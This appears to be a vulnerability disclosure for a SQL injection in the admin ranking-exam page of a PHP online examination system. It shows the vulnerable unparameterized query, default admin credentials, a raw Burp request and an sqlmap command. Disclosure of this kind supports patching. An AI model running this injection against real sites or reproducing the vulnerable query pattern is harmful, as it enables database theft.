

## Online Examination System With Timer

## SQL Injection on `ranking-exam.php`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/online-examination-system-with-timer/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/adminpanel/index.php
admin@username
admin@password
```

### Affected Page:

```
/adminpanel/admin/home.php?page=ranking-exam
```

The potential injection point is located in `ranking-exam.php`. This file directly utilizes the `$exam_id`  variables to construct a database query without employing parameterized queries or proper data sanitization measures.

```php
# /adminpanel/admin/home.php

@$page = $_GET['page'];
if($page != '')
{
	if($page == "add-course")
	{
		include("pages/add-course.php");
	}
	else if($page == "manage-course")
	{
		include("pages/manage-course.php");
	}
	else if($page == "manage-exam")
	{
		include("pages/manage-exam.php");
	}
	else if($page == "manage-examinee")
	{
		include("pages/manage-examinee.php");
	}
	else if($page == "ranking-exam")
	{
		include("pages/ranking-exam.php");
	}
	else if($page == "feedbacks")
	{
		include("pages/feedbacks.php");
	}
	else if($page == "examinee-result")
	{
		include("pages/examinee-result.php");
	}
}
```

```php
# pages/ranking-exam.php

@$exam_id = $_GET['exam_id'];
if($exam_id != ""){
	$selEx = $conn->query("SELECT * FROM exam_tbl WHERE ex_id='$exam_id' ")->fetch(PDO::FETCH_ASSOC);
	$exam_course = $selEx['cou_id'];
	$selExmne = $conn->query("SELECT * FROM examinee_tbl et  WHERE exmne_course='$exam_course'  ");
}
```


### Proof of Concept:

**Burp Request:**

```
GET /adminpanel/admin/home.php?page=ranking-exam&exam_id=25 HTTP/1.1
Host: 192.168.150.131
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.150.131/adminpanel/admin/home.php?page=ranking-exam
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: PHPSESSID=a3630ea0258c281edaea4e92c6a98410
x-forwarded-for: 8.8.8.8
Connection: close


```

```
python sqlmap.py -r 1.txt --current-user --batch --dbms mysql
```

**Screenshot:**


